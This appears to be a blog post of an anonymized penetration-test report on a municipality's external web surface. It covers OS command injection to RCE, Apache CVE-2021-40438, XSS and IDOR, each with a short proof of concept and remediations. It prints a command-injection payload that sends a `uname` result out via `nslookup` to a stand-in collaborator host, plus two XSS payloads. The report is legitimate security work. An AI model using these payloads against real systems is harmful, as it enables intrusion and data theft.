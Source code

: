 ```yaml
---
layout: post
title: 'Municipality External PT'
tags:
 - web
 - real-engagement
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: blue
---
```


No images (image for the step by step PoC are essential as evidence but will not be provided
) or references will be provided, as this assessment was a real engagement. Additionally, all URLs and functionalities have been anonymized to ensure privacy and compliance with non-disclosure agreements (NDAs). {: .lead} <!--break-->

# Municipality

## Type of activity and objectives
The objective of this engagement was to conduct an external penetration assessment for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from outside sources, with the goal of preventing unauthorized access and compromise.
## Scope of evaluation
The evaluation was focused on the external surface of the organization. This scope encompassed assessing the security and potential vulnerabilities within this external surface.
## Executive Summary
The security assessment conducted on the target environment revealed several significant findings that require immediate attention:

1. **OS Command Injection to Remote Code Execution (RCE):**
   The team successfully exploited an OS command injection vulnerability that led to remote code execution within the application. This critical finding poses a severe risk to the security and functionality of the application, as attackers could potentially execute arbitrary code and gain unauthorized access.

2. **CVE-2021-40438:**
   During the assessment, the team identified the presence of CVE-2021-40438, a known security vulnerability. This finding indicates that the application might be susceptible to a specific type of attack, potentially allowing attackers to compromise its integrity, confidentiality, or availability.

3. **Cross Site Scripting (XSS):**
   The team discovered instances of Cross-Site Scripting (XSS) vulnerabilities within the application. These vulnerabilities can be exploited to inject malicious scripts into web pages viewed by other users, compromising their browsing experience and potentially leading to data theft or unauthorized actions.

4. **Insecure Direct Object References (IDOR):**
   The assessment identified instances of Insecure Direct Object References (IDOR) vulnerabilities within the application. These vulnerabilities can enable attackers to access sensitive resources or data that they should not have access to, potentially leading to unauthorized information disclosure or data manipulation.

Failing to address these vulnerabilities could result in unauthorized access, data breaches, and potential financial and reputational damages. It is strongly recommended that the organization takes prompt actions to remediate these vulnerabilities and enhance the overall security posture of the external surface.
## Finding Summary
- OS cmd injection to RCE
- CVE-2021-40438
- Cross Site Scripting (XSS)
- IDOR
## Attack storyline or vulnerabilities with CVSS,CVE and remedations
### OS cmd injection to RCE
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The following path was founded vulnerable: /password/index.php

- Detection of OS Injection: Using the payload `values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&`, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.

- Achieving Remote Code Execution: With the knowledge of the OS injection vulnerability, the attacker proceeds to execute arbitrary commands to gain control over the target system. In this PoC, the attacker leverages a crafted Python shell payload to establish a reverse shell connection, allowing them to remotely interact with the compromised system.
#### Remediations
- Implement Input Validation and Sanitization: Apply strict input validation and sanitization on all user-supplied inputs, especially those that are used in executing commands or constructing queries. This includes both form fields and URL parameters. Use input validation libraries and functions that reject or sanitize any suspicious or malicious inputs.

- Use Parameterized Queries: If database queries are involved, switch to using parameterized queries or prepared statements to prevent SQL injection vulnerabilities. This also helps mitigate OS command injection if the query construction is involved.

- Whitelisting Allowed Commands: Maintain a whitelist of allowed commands and sanitize input to ensure that only authorized commands can be executed. Validate user inputs against this whitelist before using them in command execution.
### CVE-2021-40438
- CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
A crafted request uri-path can cause mod_proxy to forward the request to an origin server choosen by the remote user. This issue affects Apache HTTP Server 2.4.48 and earlier.

The following was used for exploitation: https://github.com/Kashkovsky/CVE-2021-40438 .
#### Remediations
- Update the Apache HTTP Server

### Cross Site Scripting (XSS)
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The provided Proof of Concept (PoC) demonstrates Cross-Site Scripting (XSS) vulnerabilities within a web application. XSS is a type of security vulnerability that occurs when an application does not properly sanitize or validate user input before rendering it on a web page. This allows an attacker to inject malicious scripts into the application, which are then executed within the context of other users' browsers.

In the context of the PoC:

- `authRequestCode=</script><script>alert(1)</script>`
Here, the value provided for the authRequestCode parameter includes a script tag </script> to prematurely close the preceding script tag, followed by another script tag <script> that contains the JavaScript code alert(1). This payload attempts to execute an alert box with the message "1" when the vulnerable page is loaded by another user.

- `lang=asas';alert(1)//34`
In this payload, the lang parameter is set to a string asas', followed by the alert(1) JavaScript code. The //34 at the end of the payload appears to be an attempt to comment out the rest of the parameter value. This payload aims to inject an alert box in a similar manner to the previous payload.
#### Remediations
- Input Validation: Validate and sanitize all user inputs on the server-side before processing or rendering them. Use input validation libraries or frameworks to ensure that only expected and safe characters are allowed.

- Contextual Escaping: Apply context-specific escaping for user-generated content based on where it will be rendered (e.g., HTML, URL, JavaScript). Use appropriate escaping functions to ensure data is treated as data and not code.

- Output Encoding: Encode user-generated content and other dynamic data before rendering it in HTML, JavaScript, or other contexts. Use appropriate encoding functions for the specific context (e.g., HTML entities, JavaScript escaping) to prevent scripts from being executed.
### IDOR
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
#### Proof of Concept (PoC) 
During the test it was possbile ot view other user submiteted forms via an IDOR in the folling In this Proof of Concept (PoC), a vulnerability related to Insecure Direct Object References (IDOR) was identified within the web application. The specific parameter being tested is "?formId=15394." By manipulating this parameter and supplying different values, the attacker was able to access and view forms submitted by other users, potentially compromising their sensitive data.

An Insecure Direct Object Reference occurs when an application exposes a reference to an internal implementation object, such as a file, directory, or database record, without proper authorization checks. In this case, the application failed to validate the user's authorization before providing access to form submissions associated with a specific form ID.
#### Remediations
- Implement Proper Authorization Checks: Ensure that access controls and authorization checks are implemented for all resources and functionalities. Verify that users have the necessary permissions to access specific objects or data before providing them with access.

- Use Indirect Object References: Avoid directly exposing internal object references such as database IDs or filenames to users. Instead, use indirect references or tokens that are validated and mapped to the corresponding objects on the server side.

- Implement Contextual Access Control: Apply access controls based on the context of the user, their role, and the data they are allowed to access. This includes ensuring that users can only access their own data or data they are authorized to view.
